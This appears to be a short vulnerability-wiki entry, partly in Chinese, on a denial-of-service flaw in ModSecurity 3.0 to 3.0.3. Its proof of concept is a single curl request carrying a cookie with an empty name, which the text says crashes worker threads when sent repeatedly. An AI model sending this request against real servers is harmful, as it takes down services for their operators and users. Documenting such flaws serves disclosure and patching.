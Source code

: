 <languages /> <translate>

影響版本
--------

</translate> ModSecurity 3.0 - 3.0.3

POC
---

<translate> 不斷向服務器發送此類請求將使工作線程反复崩潰 </translate>

    curl -s -H 'Cookie: =test' 'http://test/'